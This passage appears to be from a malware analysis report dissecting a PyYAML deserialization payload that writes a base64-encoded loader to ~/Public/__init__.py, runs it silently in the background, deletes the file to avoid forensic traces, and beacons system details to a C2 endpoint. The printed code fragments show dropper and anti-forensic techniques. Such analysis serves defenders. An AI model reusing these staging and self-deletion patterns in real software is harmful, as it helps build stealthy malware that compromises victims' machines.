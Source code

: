 #### PyYAML Deserialization Payload 

(VT Hash: `47e997b85ed3f51d2b1d37a6a61ae72185d9ceaf519e2fdb53bf7e761b7bc08f`)

We recreated this malicious setup by hosting the YAML deserialization payload on a Python+Flask web application, using PythonAnywhere to mimic attacker infrastructure. We updated the malicious URL in the `data_fetcher.py` script to point to our PythonAnywhere-hosted YAML payload.

When PyYAML loads and executes the malicious YAML payload, it performs the following actions:

First, it creates a directory named `Public` in the victim’s home directory.

```py
directory = os.path.expanduser("~")
directory = os.path.join(directory, "Public")

if not os.path.exists(directory):
    os.makedirs(directory)
```

Next, it decodes and writes a base64-encoded Python loader script into a new file named `__init__.py` within the `Public` directory.

```py
filePath = os.path.join(directory, "__init__.py")

with open(filePath, "wb") as f:
    f.write(base64.b64decode(b"BASE64_ENCODED_LOADER_SCRIPT"))
```

Finally, it executes the newly created `__init__.py` script silently in the background, initiating the second stage of the attack.

```py
subprocess.Popen([sys.executable, filePath], start_new_session=True, stdout=DEVNULL, stderr=DEVNULL)
```

#### Python Loader Script 

(VT Hash: `937c533bddb8bbcd908b62f2bf48e5bc11160505df20fea91d9600d999eafa79`)

To avoid leaving forensic evidence, the loader first deletes its file (`__init__.py`) after execution, leaving it running in memory only.

```py
directory = os.path.join(home_directory, "Public")

    if not os.path.exists(directory):
        os.makedirs(directory)

    try:
        body_path = os.path.join(directory, "__init__.py")
        os.remove(body_path)
```

This loader’s primary goal is to establish continuous communication with the Command-and-Control (C2) server. It gathers basic system information—like OS type, architecture, and system version—and sends these details to the C2 via an HTTP POST request to the hardcoded /club/fb/status URL endpoint. 
